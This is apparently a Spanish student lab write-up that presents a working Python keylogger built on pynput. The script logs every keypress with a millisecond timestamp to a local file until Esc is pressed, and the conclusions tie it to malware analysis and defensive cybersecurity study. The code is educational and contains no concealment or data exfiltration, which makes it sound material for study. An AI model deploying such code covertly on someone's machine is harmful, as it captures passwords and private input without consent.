

Descripción
Actividad 3: No presiones Esc… todavía
Esta práctica consiste en implementar y documentar un programa basado en event hooks y callbacks para interceptar el teclado.
El objetivo principal es registrar cada pulsación del usuario y guardarla en un archivo local (persistencia), asociando cada evento con una marca de tiempo exacta (asociación temporal). Esto permite comprender a nivel técnico cómo operan las técnicas de captura de entrada de información, fundamentales en el análisis de malware y ciberseguridad.
Código Fuente
from pynput.keyboard import Key, Listener
from datetime import datetime
i = 0
def on_press(key):
global i
i += 1
fecha_formateada = datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
try:
tecla = key.char
except AttributeError:
tecla = key
registro = f"{fecha_formateada} | {tecla} | evento_{i}\n"
with open("Caracteres.txt", "a") as file:
file.write(registro)
def on_release(key):
print(f'key_released: {key}')
if key == Key.esc:
return False
with Listener(on_press=on_press, on_release=on_release) as listener:
listener.join()Explicación del Código
Resultados
Aquí puedes observar la salida generada por el script. Cada vez que se ejecuta, el archivo Caracteres.txt se actualiza con el registro preciso.

>_ Captura de pantalla: Archivo Caracteres.txt generado exitosamente.
Conclusiones
A través de esta práctica, se comprendió el funcionamiento a bajo nivel de las técnicas de intercepción de teclado mediante event hooks. Al lograr registrar la entrada del usuario de manera persistente y asociarla con marcas temporales precisas, se evidencia cómo estas mecánicas pueden ser utilizadas tanto para el monitoreo y telemetría de sistemas legítimos, como para el desarrollo de software malicioso (keyloggers). Comprender su estructura es fundamental para aplicar estrategias de mitigación en ciberseguridad.